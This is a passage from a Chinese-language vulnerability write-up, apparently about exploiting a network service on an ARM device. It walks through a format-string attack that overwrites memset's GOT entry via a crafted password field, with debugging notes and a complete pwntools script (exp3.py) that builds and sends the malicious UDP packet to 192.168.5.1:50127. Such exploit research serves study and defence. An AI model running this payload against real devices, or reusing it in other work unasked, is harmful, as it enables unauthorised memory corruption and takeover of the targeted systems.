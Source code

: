 ![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669776161137-154e8bcc-19f0-4190-ada7-2df9f8ffb856.png)

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669776201703-8e2f3460-3e5f-4bf9-b45c-ba0faaa574df.png)

真好，被截的什么都不剩...稍微调整一下`p32(memset_got)`的位置，有：`payload_password = b'bbbb'+b"%73868c%43$n"+p32(memset_got)`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669776376429-4cda800a-cdfa-4d66-abc8-444b7b6fe7d7.png)

嘿嘿，这下应该没问题了吧？

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669776547684-18bb545b-5096-40a7-a744-c809c4510b9d.png)

艹，哪儿来的0x0a（'\n'）？我找了半天才发现是格式化是自带的...

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669776585783-a14c648e-0caa-46dd-8d97-e85b9cdb6e2d.png)

绝，那就不能使用经过`vsnprintf`拼接后的字符串了。但是我们注意到，`recvfrom`接收用户输入之后会将数据保留到栈上，它是未经修改，原汁原味的数据，如下图所示（`b *0x14CE0`）：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669794145791-75788566-0b9e-49c9-8f32-29f6943fa9e8.png)

重复上面寻找偏移的步骤，有如下`exp3.py`：

```python
from pwn import *
from threading import Thread
context.log_level="debug"
context.arch="arm"
context.endian="little"
def accept():
    l=listen(50127, typ='udp')	# 监听本地（Ubuntu）的50127端口
    l.wait_for_connection()
    print(l.recv(100))			# 接收100字节应该够了
    l.close()


thread = Thread(target=accept)
thread.start()  

memset_got=0x34BE4
p=remote('192.168.5.1', 50127, typ='udp')
payload_username = b"cyberangel"
payload_password = b'bbbb'+b"%73868c%347$n"+p32(memset_got)		# b'bbbb'+b"%73868c%43$n"+p32(memset_got)
encode_username = payload_username.hex()
encode_password = payload_password.hex()
data=bytes.fromhex(
    f"00420241001c42af5b3a004f525400123456555345524e414d453a{encode_username}0950415353574f52443a{encode_password}0953484152455f5245513a30094654505f5245513a30")
p.send(data)
p.close()
```
